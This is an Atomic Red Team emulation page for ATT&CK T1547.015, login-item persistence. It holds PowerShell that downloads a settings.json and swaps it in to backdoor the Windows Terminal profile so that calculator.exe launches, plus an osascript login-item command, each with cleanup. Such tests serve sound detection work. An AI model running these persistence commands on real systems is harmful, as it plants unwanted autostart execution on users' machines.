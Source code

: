 # T1547.015 - Boot or Logon Autostart Execution: Login Items
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/015)
<blockquote>Adversaries may add login items to execute upon user login to gain persistence or escalate privileges. Login items are applications, documents, folders, or server connections that are automatically launched when a user logs in.(Citation: Open Login Items Apple) Login items can be added via a shared file list or Service Management Framework.(Citation: Adding Login Items) Shared file list login items can be set using scripting languages such as [AppleScript](https://attack.mitre.org/techniques/T1059/002), whereas the Service Management Framework uses the API call <code>SMLoginItemSetEnabled</code>.

Login items installed using the Service Management Framework leverage <code>launchd</code>, are not visible in the System Preferences, and can only be removed by the application that created them.(Citation: Adding Login Items)(Citation: SMLoginItemSetEnabled Schroeder 2013) Login items created using a shared file list are visible in System Preferences, can hide the application when it launches, and are executed through LaunchServices, not launchd, to open applications, documents, or URLs without using Finder.(Citation: Launch Services Apple Developer) Users and applications use login items to configure their user environment to launch commonly used services or applications, such as email, chat, and music applications.

Adversaries can utilize [AppleScript](https://attack.mitre.org/techniques/T1059/002) and [Native API](https://attack.mitre.org/techniques/T1106) calls to create a login item to spawn malicious executables.(Citation: ELC Running at startup) Prior to version 10.5 on macOS, adversaries can add login items by using [AppleScript](https://attack.mitre.org/techniques/T1059/002) to send an Apple events to the “System Events” process, which has an AppleScript dictionary for manipulating login items.(Citation: Login Items AE) Adversaries can use a command such as <code>tell application “System Events” to make login item at end with properties /path/to/executable</code>.(Citation: Startup Items Eclectic)(Citation: hexed osx.dok analysis 2019)(Citation: Add List Remove Login Items Apple Script) This command adds the path of the malicious executable to the login item file list located in <code>~/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm</code>.(Citation: Startup Items Eclectic) Adversaries can also use login items to launch executables that can be used to control the victim system remotely or as a means to gain privilege escalation by prompting for user credentials.(Citation: objsee mac malware 2017)(Citation: CheckPoint Dok)(Citation: objsee netwire backdoor 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence by modifying Windows Terminal profile](#atomic-test-1---persistence-by-modifying-windows-terminal-profile)

- [Atomic Test #2 - Add macOS LoginItem using Applescript](#atomic-test-2---add-macos-loginitem-using-applescript)


<br/>

## Atomic Test #1 - Persistence by modifying Windows Terminal profile
Modify Windows Terminal settings.json file to gain persistence. [Twitter Post](https://twitter.com/nas_bench/status/1550836225652686848)

**Supported Platforms:** Windows


**auto_generated_guid:** ec5d76ef-82fe-48da-b931-bdb25a62bc65





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| calculator | Test program used to imitate a maliciously called program. | string | calculator.exe|
| settings_json_def | Default file for Windows Terminal to replace the default profile with a backdoor to call another program. | path | ~&#92;AppData&#92;Local&#92;Packages&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;LocalState&#92;settings.json|
| settings_json_tmp | Temp file for Windows Terminal. | path | ~&#92;AppData&#92;Local&#92;Temp&#92;settings.json|
| wt_exe | Windows Terminal executable. | path | ~&#92;AppData&#92;Local&#92;Microsoft&#92;WindowsApps&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;wt.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
mv #{settings_json_def} #{settings_json_tmp}
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.015/src/settings.json?raw=true" -OutFile "#{settings_json_def}"
wt.exe
```

#### Cleanup Commands:
```powershell
mv -Force #{settings_json_tmp} #{settings_json_def}
taskkill /F /IM "#{calculator}" > $null
```



#### Dependencies:  Run with `powershell`!
##### Description: Windows Terminal must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path #{wt_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$(rm ~\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\LocalState\StoreEdgeFD\installed.db -ErrorAction Ignore; Write-Output ""; $?) -and $(winget install --id=Microsoft.WindowsTerminal)
```




<br/>
<br/>

## Atomic Test #2 - Add macOS LoginItem using Applescript
Runs osascript on a file to create new LoginItem for current user.
NOTE: Will popup dialog prompting user to Allow or Deny Terminal.app to control "System Events"
Therefore, it can't be automated until the TCC is granted.
The login item launches Safari.app when user logs in, but there is a cleanup script to remove it as well.
In addition to the `osascript` Process Events, file modification events to
`/Users/*/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm` should be seen.

**Supported Platforms:** macOS


**auto_generated_guid:** 716e756a-607b-41f3-8204-b214baf37c1d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| scriptfile | path to Applescript source to add Safari LoginItem. | string | PathToAtomicsFolder/T1547.015/src/add_login_item.osa|
| cleanup_script | path to Applescript source to delete Safari LoginItem. | string | PathToAtomicsFolder/T1547.015/src/remove_login_item.osa|


#### Attack Commands: Run with `bash`! 


```bash
osascript #{scriptfile}
```

#### Cleanup Commands:
```bash
osascript #{cleanup_script}
```





<br/>
